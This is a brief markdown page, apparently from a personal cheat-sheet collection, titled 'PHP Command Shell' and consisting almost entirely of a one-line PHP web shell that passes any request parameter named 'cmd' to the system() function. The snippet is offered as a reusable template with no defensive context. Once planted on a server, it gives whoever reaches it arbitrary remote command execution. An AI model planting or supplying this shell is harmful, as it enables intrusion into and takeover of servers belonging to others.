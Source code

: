 ```yaml
---
title: "PHP Command Shell"
date: 2024-7-8
tags: ["php", "shell", "template"]
---
```


### PHP Command Shell

<div>

```php
<?php system($_REQUEST['cmd']); ?>
```

</div>

<br>